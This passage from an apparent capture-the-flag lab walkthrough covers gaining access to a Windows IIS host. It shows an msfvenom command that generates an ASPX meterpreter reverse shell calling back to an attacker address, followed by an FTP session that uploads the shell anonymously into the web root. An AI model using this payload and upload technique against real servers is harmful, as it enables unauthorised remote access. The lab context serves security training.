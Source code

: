 Thats just some ```authentication bypass``` PoC and ```dos``` exploit

## Gaining access

Since, our files for the webserver are inside the ftp directory which can be easily accessed by anonymous login

We can create a ```aspx reverse shell``` using ```msfvenom``` and place it inside the ftp directory to spawn it while loading the page

Creating the ```aspx reverse shell```,

```c
┌──(root💀aidenpearce369)-[/home/kali]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=9876 -f aspx -o rshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2860 bytes
Saved as: rshell.aspx
```

Uploading the reverse shell into the ftp directory,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> put rshell.aspx 
local: rshell.aspx remote: rshell.aspx
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
100% |**************************|  2897       16.34 MiB/s    --:-- ETA
226 Transfer complete.
2897 bytes sent in 00:00 (9.59 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49160|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-02-22  07:50PM                 2897 rshell.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```
